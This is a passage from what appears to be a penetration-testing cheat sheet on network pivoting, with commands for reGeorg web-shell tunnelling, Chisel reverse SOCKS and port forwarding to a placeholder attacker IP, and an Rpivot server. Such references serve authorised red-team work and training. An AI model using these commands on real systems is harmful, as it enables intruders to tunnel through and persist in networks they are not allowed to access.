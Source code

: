 
---

## **Other Tunneling Tools**

### reGeorg

Pivot through a web shell tunnel (PHP/JSP/ASPX).

```bash

python reGeorgSocksProxy.py -p 8080 -u http://<victim_ip>/path/to/tunnel.jsp

```

> reGeorg GitHub
> 

---

### Chisel

Fast TCP tunneling over HTTP using client-server setup.

- **SOCKS Proxy:**

```bash

./chisel server -p 8080 --reverse
./chisel client <attacker_ip>:8080 R:socks

```

- **Port Forwarding:**

```bash

./chisel server -p 12312 --reverse
./chisel client <attacker_ip>:12312 R:<local_port>:<target_ip>:<target_port>

```

> Chisel GitHub
> 

---

### Rpivot

Reverse SOCKS proxy pivoting.

- **Attacker:**

```bash

python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080

```
